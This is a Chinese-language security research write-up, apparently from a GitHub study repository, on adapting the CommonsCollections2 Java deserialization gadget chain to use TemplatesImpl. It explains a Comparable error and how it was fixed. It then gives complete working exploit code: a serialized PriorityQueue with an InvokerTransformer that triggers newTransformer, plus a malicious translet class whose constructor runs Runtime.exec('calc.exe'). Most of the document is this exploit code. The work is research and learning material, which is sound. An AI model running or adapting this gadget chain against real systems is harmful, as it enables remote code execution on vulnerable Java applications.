 # 使用TemplatesImpl改造CommonsCollections2

为什么会有这个主要是看到之前优先级队列那个

看到这里，再结合CC6与Shiro的利用不难想到也可以改造

![](img/2.png)

首先按照[之前写的那篇](https://github.com/Stakcery/JavaSec/blob/main/2.CC%E4%B8%93%E5%8C%BA/CommonsCollections6-Shiro1.2.4/CommonsCollections6-Shiro1.2.4.md)，按照模板套了一下，当然还要改一下，这里用的是`org.apache.commons.collections4.Transformer`而不是

`org.apache.commons.collections.Transformer`

这里也是要改的

```Java
Transformer transformer = new InvokerTransformer("getClass", null, null);
```

为什么呢？

跑一遍试试![](img/3.png)![](img/4.png)

报错说必须是一个可比较对象，这里看看java.lang.Comparable的实现，很明显这个String我们很喜欢，毕竟大多数类都有`toString`方法对吧

![](img/1.png)

改了以后，就解决问题了，但是我们反序列化的时候需要触发`newTransformer`

所以通过反射搞回来就完事了，简单的

## 完整代码

```java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class CommonsCollections2 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz =
            pool.get(test.class.getName());
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator( transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(obj);
        queue.add(obj);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

test类

```Java
package ysoserial.mytest;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

